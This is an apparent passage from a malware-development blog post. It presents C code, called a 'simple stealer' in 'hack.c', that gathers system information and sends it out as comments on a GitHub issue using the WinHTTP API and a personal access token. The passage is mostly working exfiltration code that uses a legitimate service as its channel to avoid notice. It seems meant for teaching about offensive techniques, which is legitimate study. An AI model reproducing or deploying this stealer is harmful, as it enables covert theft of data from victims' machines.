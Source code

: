 ```cpp
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  DWORD code = 0;
  DWORD codeS = sizeof(code);
  if (WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_STATUS_CODE | WINHTTP_QUERY_FLAG_NUMBER, WINHTTP_HEADER_NAME_BY_INDEX, &code, &codeS, WINHTTP_NO_HEADER_INDEX)) {
    if (code == 201) {
      printf("comment posted successfully.\n");
    } else {
      printf("failed to post comment. HTTP Status Code: %d\n", code);
    }
  } else {
    DWORD error = GetLastError();
    LPSTR buffer = NULL;
    FormatMessageA(FORMAT_MESSAGE_ALLOCATE_BUFFER | FORMAT_MESSAGE_FROM_SYSTEM | FORMAT_MESSAGE_IGNORE_INSERTS,
                   NULL, error, 0, (LPSTR)&buffer, 0, NULL);
    printf("unknown error: %s\n", buffer);
    LocalFree(buffer);
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  return 0;
}
```

Here, I used the [REST API to manage comments on issues and pull requests](https://docs.github.com/en/rest/issues/comments?apiVersion=2022-11-28)      

The full source of our simple stealer is looks like this (`hack.c`):    

```cpp
/*
 * hack.c
 * sending systeminfo via legit URL. GitHub API
 * author @cocomelonc
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

#define GITHUB_TOKEN "github_classic_token_here"
#define REPO_OWNER "your_github_username"
#define REPO_NAME "your_repo_name"
#define ISSUE_NUMBER "1"

// send data to GitHub using winhttp
int sendToGitHub(const char* comment) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
```